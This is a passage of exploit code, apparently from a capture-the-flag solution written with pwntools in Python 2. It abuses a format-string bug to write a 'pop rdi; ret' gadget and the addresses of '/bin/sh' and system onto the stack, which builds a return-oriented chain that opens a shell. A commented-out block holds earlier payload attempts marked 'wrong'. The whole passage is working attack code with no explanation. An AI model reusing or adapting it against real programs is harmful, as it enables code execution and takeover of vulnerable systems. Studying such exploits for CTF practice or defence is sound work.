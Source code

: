 ```

a = stack_addr2_low -0x38

print hex(stack_addr2_low)

######## pop rdi;ret


edit1(stack_addr2_low - 24)
edit2(0x0a63)

### "/bin/sh\x00"

sh_low = sh_addr & 0xffff
sh_mid = (sh_addr >> 16) & 0xffff
sh_high = (sh_addr >> 32) & 0xffff
print hex(sh_low)
print hex(stack_addr2_low -16)
edit1(stack_addr2_low - 16)
edit2(sh_low)
edit1(stack_addr2_low - 14)
edit2(sh_mid)
edit1(stack_addr2_low - 12)
edit2(sh_high)


### system

system_low = system_addr & 0xffff
system_mid = (system_addr >> 16) & 0xffff
system_high = (system_addr >> 32) & 0xffff

edit1(stack_addr2_low -8)
edit2(system_low)
edit1(stack_addr2_low -6)
edit2(system_mid)
edit1(stack_addr2_low -4)
edit2(system_high)


###send to 100 ,let it out of echo_better
for i in range(0,84) :
   p.sendline('wait')

###### wrong #
'''
pattern = "%{}c%{}$hn"
payload1 = ""
payload1 += pattern.format(a,8)
payload1 = payload1.ljust(16,"A")
pause()
p.sendline(payload1)
pattern = "%{}c%{}$hn"
payload2 = ""
payload2 += pattern.format(0x0a63,12)
payload2 = payload2.ljust(16,"B")
pause()
p.sendline(payload2)
'''
#edit1(stack_addr2_low -56)
#edit2(0x0a63)

###### wrong #
```